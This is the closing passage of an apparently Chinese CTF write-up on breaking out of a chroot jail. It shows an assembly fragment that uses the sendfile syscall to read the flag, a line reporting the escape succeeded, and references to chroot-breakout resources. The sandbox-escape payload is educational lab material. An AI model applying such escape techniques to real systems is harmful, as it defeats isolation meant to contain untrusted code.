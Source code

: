 ```c
    mov r10, 0x100
    mov rax, 0x28
    syscall
    js .errExit
    push rax

    mov eax, 60
    xor edi, edi
    syscall

.errExit:
    push 1
    pop rax
    push 1
    pop rdi
    mov rsi, errMessage
    mov rdx, 35
    syscall
    mov rax, 60
    mov rdi, 1
    syscall
```

逃逸成功读到 flag：

![success](res.jpg)

---

## References

\[1. \] [chw00t](https://github.com/earthquake/chw00t) . _Balazs Bucsay_
\[2. \] [How to break out of a chroot() jail](http://www.unixwiz.net/techtips/mirror/chroot-break.html) . _Simon_
